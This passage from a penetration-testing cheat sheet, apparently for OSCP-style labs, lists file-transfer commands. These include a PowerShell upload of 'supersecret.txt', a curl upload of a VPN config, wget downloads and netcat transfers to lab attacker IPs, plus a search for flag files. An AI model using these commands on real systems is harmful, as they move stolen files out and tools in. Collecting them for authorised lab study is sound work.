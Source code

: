    ```
   (New-Object System.Net.WebClient).UploadFile('http://192.168.45.195/', 'C:\Tools\supersecret.txt')
   ```

   

3. linux- download files

   ```
   wget 192.168.45.170/File
   wget 192.168.45.170/File -O xxxx
   ```

   

4. linux - upload files

   ```
   curl -F 'file=@/home/kali/Documents/pwk2.ovpn' http://192.168.45.170/
   ```

   

   ```
   scp <source_user>@<source_host>:<file> <destination_user>@<destination_host>:<file>
   scp -r <source_user>@<source_host>:<directory> <destination_user>@<destination_host>:<directory>
   ```

   

   ```
   nc -nlvp 4444 > incoming.exe
   nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
   ```



### Misc

Find Flag

```
# Powershell
Get-ChildItem -Path C:\Users\ -Include local.txt, proof.txt -File -Recurse -ErrorAction SilentlyContinue

# CMD
powershell -c "Get-ChildItem -Path C:\Users\ -Include local.txt, proof.txt -File -Recurse -ErrorAction SilentlyContinue"
```



Check the current shell

```
ps -p $$

echo $0		# displays the name of the current shell or script
```



Import Module
